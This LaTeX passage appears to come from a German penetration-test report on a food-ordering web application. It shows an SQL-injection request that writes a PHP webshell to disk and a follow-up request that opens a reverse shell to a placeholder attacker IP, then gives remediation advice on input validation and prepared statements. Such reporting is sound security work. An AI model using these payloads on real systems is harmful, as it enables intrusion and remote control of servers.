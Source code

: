 \begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.105 
[...]
id=5+UNION+Select+null,null,null,+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>",+null,null, null,null,null+into+outfile+'/var/www/food-ordering-system/shell5.php'&status= Cancelled+by+Customer&payment_type=Wallet&action=
\end{verbatim}
\caption{Webshell}
\label{listing:drache:webshell}
\end{listing}

\begin{listing}[!ht]
\begin{verbatim}
GET /shell5.php?cmd=php+-r+'$sock%3dfsockopen("<Angreifer-IP>",9001)%3bexec("/bin/sh+-i +<%263+>%263+2>\%263")%3b' HTTP/1.1
Host: 10.0.68.105 
[...]   
\end{verbatim}
\caption{Reverse Shell insertion}
\label{listing:drache:reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/02_gruener_drache_proof.png}
    \caption{Proof für die Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache_proof}
\end{figure}

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}
